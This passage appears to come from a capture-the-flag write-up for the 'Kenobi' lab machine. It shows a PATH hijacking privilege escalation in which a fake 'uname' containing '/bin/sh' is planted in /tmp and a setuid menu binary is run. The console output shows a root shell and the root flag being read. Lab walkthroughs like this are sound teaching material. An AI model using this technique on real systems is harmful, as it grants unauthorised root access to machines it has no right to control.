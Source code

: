 the plan is: We copied the `/bin/sh` shell, called it `curl`, `uname`, or `ifconfig` (choose one) and gave it the correct permissions and then **put its location in our path**. This meant that when the `/usr/bin/menu` binary was run, its using our path variable to find the "fake" binary what we created. Which is actually a version of `/usr/sh`, as well as **this file being run as root it runs our shell as root!**

```console
kenobi@kenobi:~$ cd /tmp/
kenobi@kenobi:/tmp$ echo '/bin/sh' > uname
kenobi@kenobi:/tmp$ chmod 777 uname 
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :2
# whoami
root
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```